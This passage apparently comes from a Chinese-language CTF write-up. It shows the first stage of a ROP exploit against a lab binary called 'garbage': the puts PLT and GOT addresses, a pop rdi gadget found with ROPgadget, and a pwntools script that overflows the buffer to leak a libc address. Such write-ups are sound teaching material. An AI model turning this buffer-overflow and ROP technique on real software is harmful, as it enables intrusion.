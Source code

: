 ![](img/6ccf2cc0d64b55cf37489db48fc969cf.png)

获取 PLT 地址(调用存在于二进制文件中):

```
plt_put = 0x401050
```

获取 GOT 地址:

```
got_put = 0x404028
```

我还使用 [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) 来获取我们的小工具的地址位置:

![](img/12691eb621eb96a36046dd5d8dec773c.png)

```
pop_rdi = 0x40179b
```

所以脚本看起来是这样的:

```
from pwn import *#context(terminal=['tmux', 'new-window'])
p = process('./garbage')
#p = gdb.debug('./garbage', 'b main')
context(os="linux", arch="amd64")
#context.log_level = 'DEBUG'#Stage 1 - Memory Leak
log.success("Starting first stage:")
plt_put = p64(0x401050)
got_put = p64(0x404028)
pop_rdi = p64(0x40179b)
junk = "A" *136payload = junk + pop_rdi + got_put + plt_put 
p.sendline(payload)p.recvline()
p.recvline()
```

请注意，我需要将地址放入 64 位格式，因此是 p64。

当我运行脚本时:
